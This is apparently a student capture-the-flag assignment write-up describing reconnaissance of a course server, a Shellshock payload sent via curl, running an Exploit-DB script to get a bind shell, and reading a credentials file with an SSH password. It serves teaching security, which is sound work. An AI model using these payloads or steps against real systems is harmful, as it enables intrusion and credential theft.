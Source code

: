 ```yaml
---
title: Assignment 6
author:
  - Hendrik Werner s4549775
  - Aniek Den Teuling s1010747
date: \today
fontsize: 12pt
geometry: margin=5em
header-includes:
  - \usepackage{listings}
---
```


# Capture the Flag

To establish the servers IP address from the hostname we used `getent`:

```
$ getent hosts ossec-host.cs.ru.nl
131.174.142.7   ossec-host.cs.ru.nl
```

The first thing we tried, was connecting to the server via telnet, but the connection was refused:

```bash
$ telnet ossec-host.cs.ru.nl
Trying 131.174.142.7...
telnet: Unable to connect to remote host: Connection refused
```

Next we tried connecting via SSH, and there is indeed an SSH server running on the host, but connecting requires a password that we do not know:

```
$ ssh root@ossec-host.cs.ru.nl
root@ossec-host.cs.ru.nl's password:
Permission denied, please try again.
```

We can use `nmap` to scan for open ports on the host server:

```
nmap 131.174.142.7

Starting Nmap 7.60 ( https://nmap.org ) at 2018-01-10 19:00 CET
Nmap scan report for ossec-host.cs.ru.nl (131.174.142.7)
Host is up (0.073s latency).
Not shown: 937 filtered ports, 61 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 84.46 seconds
```

The only two open ports are port 22 for ssh, and port 80 for http.

We tried to exploit the Shellshock vulnerability over HTTP, but for some reason it did not work. We asked the student assistants about this, but they could not identify the problem either. The command we used was

\begin{lstlisting}[breaklines=true]
curl -H "User-Agent: () { :;}; /bin/ls" 'http://ossec-host.cs.ru.nl/cgi-bin/fortunecow.sh'`
\end{lstlisting}

The student assistants recommended downloading a ready made exploit script, so we found one on <https://exploit.db.com/exploits/34900/>, and successfully used it to get a shell on the remote host.

\begin{lstlisting}[breaklines=true]
$ python2 34900.py rhost=ossec-host.cs.ru.nl rport=12345 payload=bind pages=/cgi-bin/fortunecow.sh
[-] Trying exploit on : /cgi-bin/fortunecow.sh
[!] Successfully exploited
[!] Connected to ossec-host.cs.ru.nl
ossec-host.cs.ru.nl> uname -a
Linux ossec-host 3.13.0-24-generic #46-Ubuntu SMP Thu Apr 10 19:11:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
ossec-host.cs.ru.nl> whoami
www-data
ossec-host.cs.ru.nl> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
\end{lstlisting}

As you can see the server uses Ubuntu with Linux kernel version 3.13.0, and we do not have root privileges, and are logged in as user `www-data`.

We look for the first flag, and the credentials file, that is located in the same directory, according to the instructions:

```
ossec-host.cs.ru.nl> find / -iname flag1
/var/www/flag1
ossec-host.cs.ru.nl> ls /var/www
credentials.txt
flag1
html
ossec-host.cs.ru.nl> cat /var/www/credentials.txt
SSH
username: bob
password: ampere llama
```

Now we can log in via SSH.
